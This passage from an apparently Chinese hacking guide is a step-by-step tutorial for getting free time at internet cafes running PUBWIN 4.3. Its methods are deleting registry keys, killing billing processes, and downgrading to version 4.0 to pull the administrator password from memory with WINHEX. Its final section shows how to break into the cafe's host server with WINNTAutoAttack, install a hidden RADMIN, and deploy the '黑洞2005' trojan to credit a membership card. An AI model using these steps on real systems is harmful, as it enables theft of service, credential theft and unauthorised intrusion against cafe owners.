

图2.22

PUBWIN 4.3 在注册表里有三处设置。打开注册表，首先找到主键 `HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\RUN`，将其下的 PUBWIN 项删除，如图2.22。



图2.23

然后找到 `HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\RUNSERVICES`，也将 PUBWIN 项删除，如图2.23。



图2.24

最后将 `HKEY_LOCAL_MACHINE\SOFTWARE\HINSOFT` 下的整个 PUBWIN 键删除，如图2.24，然后退出注册表，注销一下，这样 PUBWIN 就不会再加载了。

刚开始就用这样的方法来免费上机：先正常地物理刷卡上机，然后将 PUBWIN 搞定，再刷卡结账回到本机继续上。这种方法比较麻烦，每次都要刷卡，而且也不是完全免费。怎样才能不用刷卡就免费上机呢？这成了我研究的重点。

#### 2.3.3 腾讯 QQ 法

现在大部分的网吧都将注册表编辑器禁用了，上面所讲的方法在实际的使用过程中可能会遇到些麻烦。

在测试的过程中，发现 PUBWIN 4.3 没有屏蔽开始菜单。但是我们不可以用鼠标点击桌面上的图标。不过我发现可以用系统的“运行”栏来运行程序，例如腾讯的 QQ。而且 PUBWIN 的刷屏时间间隙为三分多钟，我们可以利用这一时间空隙来打开 QQ 网络硬盘，下载事先上传的 unlock.exe（注册表解锁工具）并将注册表解锁。

不过，这时候 PUBWIN 将刷屏。担心的事情发生了，注册表能不能用？试了下，惊喜！竟然还可以使用。

于是我总结了一个在注册表编辑器被禁止使用情况下的免费上网大法，暂时定名为：腾讯 QQ 法。具体方法如下。

在进入 PUBWIN 后，调出“开始”菜单，选择“运行”，这时系统会打开“运行”对话框。什么都不要输入，按“浏览”按钮，如图2.25，选择桌面上的 QQ，如图2.26。





这样在运行中就记录下了 QQ 的路径，如图2.27。出现 QQ 的登录界面后，快速输入 QQ 号码以及密码，登录。成功后快速进入 QQ 网络硬盘，下载事先上传的“unlock.exe”，然后运行 unlock.exe，将注册表编辑器解锁。因为 PUBWIN 每隔约3分钟左右就要刷屏一次，所以要想成功下载下来基本上会需要登录两次 QQ，而且你所在网吧的网速一定要足够快，这样我们才能在有限的时间内将注册表解锁。

当你第一次登录 QQ 后，系统会自动记录下 QQ 的路径，一般是“C:\Documents and Settings\01\桌面\QQ.lnk”，再次进入时，路径被自动记录在“运行”对话框，省去了我们浏览选择 QQ 的时间。系统还会自动记录上一次登录成功的 QQ 号码，因此，3分钟的时间我们还是足够用于解锁注册表的。好了，接下来的操作就同“注册表”法情形一致了。



#### 2.3.4 “卸载精灵”

大家有没有想过把 PUBWIN 客户端给卸载了？倘若我们上网的电脑没有了客户端，服务端自然也就不可能再记录我们的费用了。“卸载精灵”就是一款不错的软件，它的智能卸载功能可以干净彻底地卸载软件，包括那些无法正常卸载的程序。

其使用方法极其简单：运行程序后，它自动检测系统安装的服务和程序，将 PUBWIN 选定，再单击“智能卸载”，几秒后，PUBWIN 客户端就从电脑上彻底消失了。



#### 2.3.5 “任务管理器”

倘若网吧没有屏蔽 Windows 任务管理器的话，我们可以按下“Ctrl+Alt+Del”组合键打开任务管理器，选择“进程管理”标签，在其中找到 PUBWIN 的两个进程 RECLOCK.EXE 和 PUBWIN.EXE，按以上顺序结束掉（图2.28）。这样就可以免费上机了。不过，不能使用桌面。可以利用“开始”菜单的“运行”功能来选择要玩的游戏，也可以登录 QQ，不过你不可以浏览网页。如果你打开网页，只要你点击任何一个“超级链接”的话，PUBWIN 就会死而复生。但是如果你仅仅想玩游戏、登录 QQ 还是挺好的。



后来一想，桌面没有加载完整，一定是 explorer.exe 搞的鬼。explorer.exe 是加载桌面的关键程序。所以 PUBWIN 在启动时一定与其进行了捆绑锁定，我们先将 explorer.exe 进程结束，然后再点击“新任务”（图2.29），输入“explorer.exe”，点确定（图2.30），桌面就又回来了。

不过这个方法在有的网吧行不通，为什么？无意间在 Windows 任务管理器中发现了一个叫做“RUND1L.EXE”的进程。凭知觉感觉它比较可疑，好像木马，就将它结束了。然后又结束了 RECLOCK.EXE 和 PUBWIN.EXE，却发现电脑可以用了。而且一次在用“绿鹰 PC 万能精灵”的时候，软件提示发现木马“RUND1L.EXE”，当时没有太在意，就按提示将木马清除了，后来回想起来，才发现这“RUND1L.EXE”是 PUBWIN 为了防止进程被杀而在系统里留下的东西。它很可能是用来做远程监控的。不过，说老实话，这个“RUND1L.EXE”让人一看就知道不是什么好东西，如果它叫“RUNDLL.EXE”就不会这么认为了。用过木马的人应该都知道，木马的进程为了隐藏一般会和系统固有的进程差不多，但是不能够相同。这个进程一看就让人想到木马。



图2.30

#### 2.3.6 “偷天换日，瞒天过海”大法

以上的方法有些繁琐，至少一些人会这样认为。获取管理员密码，以系统管理员身份免费上机，就舒服多了。最多，我们就记忆几位管理员密码。

PUBWIN 4.0 有一个 bug，就是管理员密码以明文保存在内存中。我们可以利用 WINHEX 等16进制编辑器编辑 PUBWIN 的内存。查找文本“wel_comety”，就来到密码的保存处。向上翻翻，就可以轻松地获取密码。

不过 4.3 版本修正了这一 bug，我们要想再简单地获取管理员密码就没有那么简单了。不过我们可以将 4.3 版本的 PUBWIN 客户端卸载，然后安装上 4.0 版的，再用 WINHEX 编辑 PUBWIN 的内存，就又可以获取管理员密码。不过现在再在网上找 4.0 版本的 PUBWIN 已经没有那么简单了。

其实不用完全找 4.0 版的 PUBWIN 再安装。只要将 4.3 版的 PUBWIN.EXE 进程结束，然后再运行 4.0 版的 PUBWIN.EXE，就可以将 PUBWIN 复活。不过在 PUBWIN.EXE 进程结束后，很短的时间内它又会复活。我们根本没有时间来运行 4.0 版的 PUBWIN.EXE。

后来我想，系统辨认文件唯一依靠的就是文件名。我们先将 4.3 版的 PUBWIN.EXE 改名，然后将 4.0 版的 PUBWIN.EXE 拖入 PUBWIN 的安装目录里（名字必须为 PUBWIN.EXE），然后结束 4.3 版的 PUBWIN.EXE。几秒后，系统调用 PUBWIN，运行的就会是 4.0 版的 PUBWIN.EXE，而非改名前的 4.3 版的 PUBWIN.EXE，PUBWIN 掉包成功。

##### 具体方法如下

工具准备：4.0版的 PUBWIN.EXE、结束进程工具“精锐网吧辅助工具”、星号密码查看器。

找到 PUBWIN 的安装目录，将里面的 PUBWIN.EXE 改名，然后将 4.0 版的 PUBWIN.EXE 拖入 PUBWIN 的安装目录里，接着用精锐网吧辅助工具来结束 PUBWIN 的进程（先结束 RECLOCK.EXE，再结束 PUBWIN.EXE）。进程结束后，注意观察系统托盘的 PUBWIN 图标，先是消失，过两秒钟又会出现。


图2.31


图2.32

现在可以使用星号密码查看器来获取密码了。右键单击 PUBWIN 图标，选“系统设置”（图2.31），打开对话框（图2.32），直接点确定（就是以空密码登录），打开“系统设置”对话框。选“参数设定”标签，在里面有以星号形式保存的管理员密码。下面就可以用星号密码查看器来获取密码了。

管理员密码是搞定了，但是不能上网浏览网页、登录 QQ，竟然是掉线状态。郁闷！网吧的客户机都是通过“本地连接”与网吧主机相连接，然后通过主机与 INTERNET 相连接，这样我们就可以与 INTERNET 连接浏览互联网资源和使用 QQ 了。打开“本地连接”检查其状态为“启用”，那为何又不能访问 INTERNET 呢？不会是 PUBWIN 又设置下了什么吧？于是就先将“本地连接”设为禁止使用，然后又重新启用，机子又连上线了。可以任意地上网冲浪了，浏览网页、登录 QQ，一切 OK。

后来又仔细回顾了自己使用管理员密码登录时的情形：输入密码，回车，打开“系统设置”对话框，我直接点的确定。下次登录时，我仔细看了一下“系统设置”中的选项，发现有一项叫做“PUBWIN 启动时自动运行（重启）生效”，发现只要将其前面的勾去掉，然后“确定”，机子就不会掉线了。我就想了，PUBWIN 怎么会不让管理员上机呢？

在 PUBWIN 系统设置里面有许多限制选项，在我们上网的过程中系统给我们这样那样的限制都是它搞的鬼。不过现在我们有了管理员密码，PUBWIN 对我们的任何限制都已经不存在了。我们可以在网吧真正自由上网了。

PUBWIN 4.3 的安全策略里有三大类、几十个限制选项：
- 一、界面限制选项；
- 二、浏览器限制选项；
- 三、其他限制选项。

## 浏览器限制选项（如图2.33）

- 1. 禁止使用“INTERNET”选项；
- 2. 禁止更改各个“安全区域”的安全级别；
- 3. 禁止增加或者删除“安全区域”中的站点；
- 4. 让“安全”页的设置应用到所有用户；
- 5. 禁止 IE 浏览器自动安装组件；
- 6. 禁止下载（可以自定义限制的文件类型）。


图2.33

## 界面限制选项（如图2.34）

- 1. 隐藏桌面；
- 2. 去除任务栏上正文菜单；
- 3. 禁止访问任务栏属性；
- 4. 禁止改变工具栏长度；
- 5. 禁止改变工具栏内容；
- 6. 开始菜单中删除“关机”菜单项；
- 7. 开始菜单中删除“运行”并禁止从浏览器访问硬盘资源；
- 8. 开始菜单中删除“WINDOWS UPDATE”；
- 9. 开始菜单中删除“注销”；
- 10. 开始菜单中删除“程序菜单”公共子菜单；
- 11. 开始菜单中删除“设置”下的“控制面板”“网络拨号连接”及“打印机”；
- 12. 在 SHELL 文件夹中关闭上下文菜单；
- 13. 禁止使用网络邻居。


图2.34

## 其它限制选项（如图2.35）

- 1. 禁止使用注册表工具；
- 2. 禁止用户更改口令；
- 3. 禁止用户锁定计算机；
- 4. 禁止用户使用任务管理器；
- 5. 禁止运行命令解释器和批处理文件；
- 6. 开机后自动登录（输域名、用户名和口令）；
- 7. 禁止使用控制面板；
- 8. PUBWIN 启动时自动运行。

如今，网管的安全意识也提高了，上面的管理员密码破解随具体的环境也有不同的变化。

我在一家网吧使用“偷天换日”大法时发现任务栏的 PUBWIN 图标不再是被替换而是彻底地消失了。而且在图标消失的同时，系统打开了 PUBWIN 的快捷方式。这个快捷方式太像以前的“美萍”“万象”等网管软件的虚拟界面了（图2.36）。


在这种情况下，我们似乎束手无策，只能重启机器。不过，大部分的网吧都装有“还原精灵”“还原卡”之类的软件。重启后，上面提到的“PUBWIN 快捷方式”确实是不见了。但是系统还原后仍是4.3版的 PUBWIN，这样一来，就没有办法破解管理员密码了，怎么办？

问题出来了，就该解决了。方法和往常差不多，不过这次不能再用“星号密码查看器”了。为何？因为 PUBWIN 在系统任务栏的图标消失了。我们没有办法打开 PUBWIN 的系统设置对话框，当然也就没办法获得星号形式保存的管理员密码了。不过我们仍然可以利用 WINHEX。

先从网上下载 WINHEX 中文版并将其放到桌面上。等出现上面提及的 PUBWIN 快捷方式时，点击一下任务栏一个图标（图2.37），这其实是一个“显示桌面”的图标。原来系统早就为我们想好了对策。只要我们点一下上面所说的图标，就可以很轻松地绕过 PUBWIN 快捷方式。看吧，熟悉的桌面就又出现了。接下来就用 WINHEX 来搞定管理员密码吧。仍和以往的方法一样，之所以将 WINHEX 放到桌面上也就是为了方便。提醒一下读者，获得管理员密码后，重启一下电脑，让系统还原。


为何要重启电脑呢？因为那个 PUBWIN 快捷方式太顽固，不会自动消失。相反，在你浏览网页或下载东西的时候会重复出现，很烦人。而且你此时若被网管发现的话，那么你就 OVER 了。重启一下电脑，系统就会还原到以前的状态。我们已经有了管理员密码，成了电脑的主人。

以上针对的是 Windows 2000 系统，那么对于 Windows XP 呢？XP 系统下没有类似 2000 的“显示桌面”图标，至少我没发现。其实我们根本不必担心，因为 XP 下系统的任务栏不会消失，我们只须先将 WINHEX 打开，守株待兔就可以了。等出现 PUBWIN 快捷方式时，点一下 WINHEX 在任务栏的图标就 OK 了。


图2.38

#### 2.3.7 “PUB4 破解精灵 V2005”

我们还可以利用“PUB4 破解精灵 V2005”，如图2.38。点击“跳过管理员密码验证—获取管理员密码”，就可以用星号密码查看器来查看密码了。软件也集成了星号密码查看器，直接用就可以了。

### 2.4 网吧小黑大战入侵实例

世界上最安全的免费上网方式就是入侵网吧的主机，给自己的会员卡加点钱，然后堂而皇之地免费上网，网管又能拿你怎样啊？嘿嘿，够爽吧。

不过，事实上要想成功做到这点还是比较困难的。为什么？因为网吧的主机可是网吧的命根子啊，即便是比较菜或者懒惰的网管也知道这一点！就算网吧客户机设置得再怎么不安全，网吧主机的安全性也会维护得比较好。不过只要掌握一定的知识，也不是不可以办到。

#### 2.4.1 确定网吧主机

要想成功入侵，这可是关键的第一步啊。连网吧主机的 IP 都搞不清楚还怎么入侵啊？我们可以利用扫描工具来扫描网吧的所有电脑。因为网吧主机的名字通常会和一般的客户机不同，这样我们就可以很轻松地获取网吧主机的 IP 地址了。

我们可以使用“月光搜索—追捕版 1.01”，填入 IP 段，点击“开始搜索”，一会儿，扫描结果就出来了，如图2.39。从图中我们可以很轻松地通过名字来确定网吧主机。

许多网管软件有更为简单和准确的方法，下面我介绍一下目前比较流行的 PUBWIN4.3 和万象2004的确定网吧主机的方法。


##### 1. PUBWIN4.3

使用 WINHEX（16进制编辑器）的“RAM”工具编辑 PUBWIN4.3 的虚拟内存，然后查找文本“welcome_ty”，在“welcome_ty”的上面是网吧的名字，再上面就是网吧主机的 IP 地址了，如图2.40所示。网吧主机的 IP 地址为 192.168.1.101。如果是4.0版的 PUBWIN，我们还可以获取管理员密码，不过 PUBWIN4.3 修正了这一 bug，但是我们仍然可以很轻松地获取网吧主机的 IP。


### 2. 万象2004

打开注册表编辑器，展开“HKEY_CURRENT_USER\Software\Sicent\wx2004Clt”，在它的设置项里有一个叫“ServerIP”的，看吧，后面的注册表值就是主机的 IP，如图2.41。

## 2.4.2 菜鸟的入侵加线

- 第一步：使用“WINNTAutoAttack”（winnt自动攻击机），使用方法极其简单。只需要将需要设置的选项的后两个标签，即 NETBIOS（图2.42）和 SQL 漏洞（图2.43）的选项内容全选上，然后再输入网吧主机的 IP 地址，最后点一下“开始”，很快就可以了，如图2.44。成功之后就可以使用 RADMIN 来连接网吧主机了。


图2.42

- 第二步：配置 RADMIN

如图2.45，建议将默认的端口改一下，而且最好也要加上密码。最重要的是要选上“隐藏状态栏图标”，毕竟安全第一嘛，我们可不想在入侵的过程中被网管发现吧，然后点击安装。


图2.43

- 第三步：导出注册表

打开注册表编辑器，展开 HKEY_LOCAL_MACHINE\SYSTEM\RAdmin，然后将它的配置导出并保存到桌面上，就取名 RADMIN.reg（最好将名字改为和系统相近的名字，这里我只是为了方便和介绍得清楚才这样命名的，在实际的入侵中你当然不可以这样命名，下面的 heidong.exe 也一样），如图2.46。


图2.44

- 第五步：安装黑洞2005

首先配置服务端，在配置服务端里有四个选项标签：安装选项、启动选项、功能选项、上线选项（图2.47）。具体的配置我就不一一介绍了，自己根据具体的情况来配置吧。


图2.45


图2.46

